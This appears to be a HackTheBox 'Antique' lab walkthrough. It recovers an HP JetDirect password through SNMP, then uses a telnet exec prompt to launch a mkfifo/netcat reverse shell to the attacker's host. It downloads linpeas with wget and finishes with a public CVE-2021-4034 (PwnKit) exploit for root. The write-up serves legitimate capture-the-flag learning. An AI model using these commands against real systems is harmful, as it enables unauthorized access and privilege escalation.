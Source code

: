 
#HackTheBox Antique Walkthrough


Here's a result of the NMAP Scan.

PORT   STATE SERVICE VERSION
23/tcp open  telnet?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NotesRPC, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, WMSRequest, X11Probe, afp, giop, ms-sql-s, oracle-tns, tn3270: 
|     JetDirect
|     Password:
|   NULL: 
|\_    JetDirect
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port23-TCP:V=7.92%I=7%D=6/12%Time=62A625D0%P=x86\_64-pc-linux-gnu%r(NULL
SF:,F,"\\nHP\\x20JetDirect\\n\\n")%r(GenericLines,19,"\\nHP\\x20JetDirect\\n\\nPas
SF:sword:\\x20")%r(tn3270,19,"\\nHP\\x20JetDirect\\n\\nPassword:\\x20")%r(GetReq
SF:uest,19,"\\nHP\\x20JetDirect\\n\\nPassword:\\x20")%r(HTTPOptions,19,"\\nHP\\x2
SF:0JetDirect\\n\\nPassword:\\x20")%r(RTSPRequest,19,"\\nHP\\x20JetDirect\\n\\nPa
SF:ssword:\\x20")%r(RPCCheck,19,"\\nHP\\x20JetDirect\\n\\nPassword:\\x20")%r(DNS
SF:VersionBindReqTCP,19,"\\nHP\\x20JetDirect\\n\\nPassword:\\x20")%r(DNSStatusR
SF:equestTCP,19,"\\nHP\\x20JetDirect\\n\\nPassword:\\x20")%r(Help,19,"\\nHP\\x20J
SF:etDirect\\n\\nPassword:\\x20")%r(SSLSessionReq,19,"\\nHP\\x20JetDirect\\n\\nPa
SF:ssword:\\x20")%r(TerminalServerCookie,19,"\\nHP\\x20JetDirect\\n\\nPassword:
SF:\\x20")%r(TLSSessionReq,19,"\\nHP\\x20JetDirect\\n\\nPassword:\\x20")%r(Kerbe
SF:ros,19,"\\nHP\\x20JetDirect\\n\\nPassword:\\x20")%r(SMBProgNeg,19,"\\nHP\\x20J
SF:etDirect\\n\\nPassword:\\x20")%r(X11Probe,19,"\\nHP\\x20JetDirect\\n\\nPasswor
SF:d:\\x20")%r(FourOhFourRequest,19,"\\nHP\\x20JetDirect\\n\\nPassword:\\x20")%r
SF:(LPDString,19,"\\nHP\\x20JetDirect\\n\\nPassword:\\x20")%r(LDAPSearchReq,19,
SF:"\\nHP\\x20JetDirect\\n\\nPassword:\\x20")%r(LDAPBindReq,19,"\\nHP\\x20JetDire
SF:ct\\n\\nPassword:\\x20")%r(SIPOptions,19,"\\nHP\\x20JetDirect\\n\\nPassword:\\x
SF:20")%r(LANDesk-RC,19,"\\nHP\\x20JetDirect\\n\\nPassword:\\x20")%r(TerminalSe
SF:rver,19,"\\nHP\\x20JetDirect\\n\\nPassword:\\x20")%r(NCP,19,"\\nHP\\x20JetDire
SF:ct\\n\\nPassword:\\x20")%r(NotesRPC,19,"\\nHP\\x20JetDirect\\n\\nPassword:\\x20
SF:")%r(JavaRMI,19,"\\nHP\\x20JetDirect\\n\\nPassword:\\x20")%r(WMSRequest,19,"
SF:\\nHP\\x20JetDirect\\n\\nPassword:\\x20")%r(oracle-tns,19,"\\nHP\\x20JetDirect
SF:\\n\\nPassword:\\x20")%r(ms-sql-s,19,"\\nHP\\x20JetDirect\\n\\nPassword:\\x20")
SF:%r(afp,19,"\\nHP\\x20JetDirect\\n\\nPassword:\\x20")%r(giop,19,"\\nHP\\x20JetD
SF:irect\\n\\nPassword:\\x20");
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=6/12%OT=23%CT=1%CU=38853%PV=Y%DS=2%DC=T%G=Y%TM=62A6267
OS:9%P=x86\_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=10C%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M505ST11NW7%O2=M505ST11NW7%O3=M505NNT11NW7%O4=M505ST11NW7%O5=M505ST1
OS:1NW7%O6=M505ST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN
OS:(R=Y%DF=Y%T=40%W=FAF0%O=M505NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

nmap -sU 10.10.11.107

PORT    STATE SERVICE
161/udp open  snmp

We have TCP port 23 open and UDP port 161 open.

telnet 10.10.11.107

[![](images/image-2.png)]

We need a password, the password might be sent over in clear text.

10.10.11.107 is connected to a HP JetDirect printer. I found a well written article about printer security. [https://www.irongeek.com/i.php?page=security/networkprinterhacking](https://www.irongeek.com/i.php?page=security/networkprinterhacking)

I'm going to leverage snmpget to try and find a password.

snmpget -v 1 -c public 10.10.11.107 .1.3.6.1.4.1.11.2.3.9.1.1.13.0

iso.3.6.1.4.1.11.2.3.9.1.1.13.0 = BITS: 50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 
33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135

snmp-get is returning something in hexadecimal. Lets convert it to ASCII and see if we find anything.

![](images/image-5.png)

We got a password! Lets telnet in and see what else we can do.

Telnet has an exec option enabled, we can execute commands. Lets try and get a reverse shell going.

I got a one liner from [https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

exec rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc \[ip\] \[port\] >/tmp/f

We also need to start a netcat listener on our kali machine.

nc -lnvp 4444

[![](images/image-8-1024x661.png)]

We're in and we have our first user flag!

As always, the next step is to run linpeas to see what we can exploit to escalate privilege to root.

python -m SimpleHTTPServer 6666

And on the victim machine.

wget 10.10.14.19:6666/linpeas.sh
./linpeas.sh

[![](images/image-9-1024x579.png)]

The machine is vulnerable to CVE-2021-4034

Clone a POC on your kali machine.

git clone https://github.com/berdav/CVE-2021-4034.git

Again, run a simplehttpserver.

python -m SimpleHTTPServer 6666

This time we want to fetch everything in the folder so we'll use a recursive option.

wget -r 10.10.14.19:6666
make
./cve-2021-4034

make and run the CVE.

[![](images/image-10.png)]

And we're root!
